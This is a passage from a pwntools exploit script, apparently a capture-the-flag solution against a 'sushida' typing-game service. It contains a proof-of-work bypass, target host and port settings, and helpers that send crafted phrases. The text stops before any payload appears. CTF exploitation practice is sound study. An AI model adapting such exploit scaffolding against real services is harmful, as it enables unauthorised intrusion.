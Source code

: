 ```exploit.py
#     https://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.

from pwn import *
import pwnlib
import sys, os

def handle_pow(r):
    print(r.recvuntil(b'python3 '))
    print(r.recvuntil(b' solve '))
    challenge = r.recvline().decode('ascii').strip()
    p = pwnlib.tubes.process.process(['kctf_bypass_pow', challenge])
    solution = p.readall().strip()
    r.sendline(solution)
    print(r.recvuntil(b'Correct\n'))

hosts = ("sushida.pwn.hakatashi.com","localhost","localhost")
ports = (1337,12300,23947)
rhp1 = {'host':hosts[0],'port':ports[0]}    #for actual server
rhp2 = {'host':hosts[1],'port':ports[1]}    #for localhost 
rhp3 = {'host':hosts[2],'port':ports[2]}    #for localhost running on docker
context(os='linux',arch='amd64')
#binf = ELF(FILENAME)
#libc = ELF(LIBCNAME) if LIBCNAME!="" else None


## utilities #########################################

def hoge(command):
  global c
  c.recvuntil("$ ")
  c.sendline(command)

def typin():
  c.recvuntil("[TYPE]")
  c.recvline()
  c.sendline(c.recvline().rstrip())

def play_clear(avoid_nirugiri=True):
  global c
  hoge("play")
  for _ in range(3):
    typin()
  
def custom(phrase):
  global c
  hoge("custom")
  c.recvuntil("[NEW PHRASE] ")
  c.sendline(phrase)

def custom_wait_NIRUGIRI(pay, append_nirugiri=True):
  global c
  print("[.] waiting luck...")
  res = ""
  found = False
  if append_nirugiri:
    custom("NIRUGIRI" + pay)
  else:
```